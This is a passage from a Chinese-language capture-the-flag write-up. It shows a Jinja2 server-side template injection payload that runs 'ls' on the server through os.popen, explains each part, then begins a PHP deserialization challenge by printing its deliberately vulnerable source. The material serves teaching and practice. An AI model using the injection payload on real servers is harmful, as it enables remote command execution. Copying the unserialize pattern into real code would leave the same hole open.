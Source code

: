 可以看到配置文件包也没有被禁用，所以直接查看服务器的本地文件有啥

```
/{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```

> class：用来查看变量所属的类，根据前面的变量形式可以得到其所属的类。
> init 初始化类，返回的类型是function
> globals[] 使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
> os.popen() 方法用于从一个命令打开一个管道。

![image-20220625161602723](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251616775.png?x-oss-process=hzy)

嘿嘿，看到了想要的了

![image-20220625161731382](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251617451.png?x-oss-process=hzy)

# Web_php_unserialize

- php反序列化

  

```
<?php 
class Demo {  // 定义一个名为Demo的类
    private $file = 'index.php'; //变量的属性
    public function __construct($file) {   //这个类使用的类方法_construct函数
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true);   //这个类使用的类方法__destruct函数
    }
    function __wakeup() {           // __wakeup ，这个函数要跳过去，因为他要是执行就会返回到index.php
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php   
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) {      //判断是否传入了参数
    $var = base64_decode($_GET['var']);     //对传入的参数进行加密
    if (preg_match('/[oc]:\d+:/i', $var)) {    //正则检查
        die('stop hacking!'); 
    } else {
        @unserialize($var);    //进行反序列化
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

这里分析一下如何得到最终的flag
